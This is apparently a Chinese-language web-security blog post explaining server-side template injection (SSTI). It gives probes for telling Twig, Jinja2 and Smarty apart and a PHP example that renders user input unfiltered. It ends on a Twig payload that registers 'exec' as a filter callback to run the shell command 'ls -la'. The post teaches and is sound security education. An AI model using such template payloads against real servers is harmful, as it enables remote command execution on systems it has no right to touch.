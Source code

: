 ```yaml
---
title: SSTI模版注入
tags:
  - web攻防
  - 注入
  - web漏洞
categories: web攻防
abbrlink: 3320036978
date: 2024-02-18 10:14:31

---
```


## SSTI
  
SSTI（Server-Side Template Injection）是一种发生在服务器端模板中的漏洞。当应用程序接受用户输入并将其直接传递到模板引擎中进行解析时，如果未对用户输入进行**充分的验证和过滤**，攻击者可以通过构造**恶意的输入**来注入模板代码，导致服务器端模板引擎执行恶意代码。


---

常见的模板有很多，不同模板的语法也不相同，在实际情况我们可以测试判断属于哪一种模板。
```
Twig{{7*'7'}}结果49 
jinja2{{7*'7'}}结果为7777777  //jinja2的常见参数是name
smarty7{*comment*}7为77
```

下面将引用一个简单的例子来说明，假设有一个包含以下代码的Twig模板文件 `template.twig`：
```
Hello, {{ name }}!
```

在后端PHP代码中，可能会这样使用Twig引擎来渲染模板：
```
$loader = new \Twig\Loader\FilesystemLoader('/path/to/templates');
$twig = new \Twig\Environment($loader);

$name = $_GET['name']; // 从用户输入获取name参数
echo $twig->render('template.twig', ['name' => $name]);
//正确的代码应该在后面两段加上过滤和验证
```

如果攻击者将name参数设置为恶意Twig模板代码，比如：
```
{{ 7 * 7 }}
```

那么最终生成的模板内容将是：
```
Hello, 49!
```

但是，如果攻击者将name参数设置为更危险的代码，比如：
```
{{ _self.env.registerUndefinedFilterCallback('exec') }}
{{ filter('ls -la') }}
```

